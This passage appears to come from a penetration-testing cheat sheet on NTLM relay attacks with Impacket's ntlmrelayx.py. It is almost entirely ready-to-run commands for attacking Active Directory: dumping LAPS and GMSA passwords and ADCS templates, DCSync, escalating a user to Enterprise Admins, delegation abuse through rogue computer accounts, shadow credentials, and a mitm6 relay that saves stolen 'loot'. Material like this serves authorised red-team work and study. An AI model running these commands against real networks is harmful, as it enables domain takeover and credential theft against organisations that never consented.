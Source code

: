 ```bash
#With attempt to dump possible GMSA and LAPS passwords, and ADCS templates
ntlmrelayx.py ldap://dc --dump-adcs --dump-laps --dump-gmsa --no-da --no-acl
```

* SOCKS

```bash
ntlmrelayx.py smb://target -socks
ntlmrelayx.py mssql://target -socks
```

* Creds dump

```bash
ntlmrelayx.py smb://target
```

* DCSync if the target in vulnerable to Zerologon

```bash
ntlmrelayx.py dcsync://dc
```

* Privesc

Add an user to **Enterprise Admins**.

```bash
ntlmrelayx.py ldap://dc --escalate-user user1 --no-dump
```

* Kerberos Delegation

Kerberos RBCD are detailled in the following section.

```bash
#Create a new computer account through LDAPS and enabled RBCD
ntlmrelayx.py ldaps://dc_IP --add-computer --delegate-access --no-dump --no-da --no-acl

#Create a new computer account through LDAP with StartTLS and enabled RBCD
ntlmrelayx.py ldap://dc_IP --add-computer --delegate-access --no-dump --no-da --no-acl

#Doesn't create a new computer account and use an existing one
ntlmrelayx.py ldap://dc_IP --escalate-user <controlled_computer> --delegate-access --no-dump --no-da --no-acl
```

* Shadow Credentials

```bash
ntlmrelayx.py -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'
```

* From a mitm6 authent

```bash
#Attempts to open a socks and write loot likes dumps into a file
ntlmrelayx.py -tf targets.txt -wh attacker.domain.local -6 -l loot.txt -socks
```

* Targeting GPO

